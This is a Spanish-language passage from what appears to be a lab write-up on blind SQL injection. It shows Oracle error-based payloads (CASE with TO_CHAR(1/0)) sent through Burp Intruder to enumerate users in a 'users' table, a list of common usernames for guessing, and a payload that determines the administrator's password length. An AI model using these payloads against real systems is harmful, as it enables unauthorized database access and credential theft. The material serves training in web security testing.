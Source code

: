 Ya que tenemos el nombre de la tabla y sus campos vamos a listar el nombre de los usuarios. TODO usuario que genere error existe en la tabla.

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '
```

Lista de nombre de usuarios mas comunes

 ```
admin
administrator
root
user
guest
test
superuser
default
manager
support
moderator
developer
operator
owner
sales
marketing
finance
hr
accounting
itadmin
 ```

Realizamos el ataque de intruder

![Intruder 2]({{site.url}}/images/SQLi/sqli-12/Intruder2.png)

Si el usuario nos arroja error, en esta ocación existe dentro de la tabla `users`

![Usuario]({{site.url}}/images/SQLi/sqli-12/usuario existe.png)

## Averiguar longitud de password de un usuario

El payload es tipo entero, ya que vamos a averiguar cuantos caracteres tiene el password de un usuario. 

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>PAYLOAD) || ' 
```
![Intruder3]({{site.url}}/images/SQLi/sqli-12/Intruder3.png)

El resultado correcto nos debe arrojar `ERROR` en este caso es `20` ya que es mayor a 19. La longitud del password es de `20`.
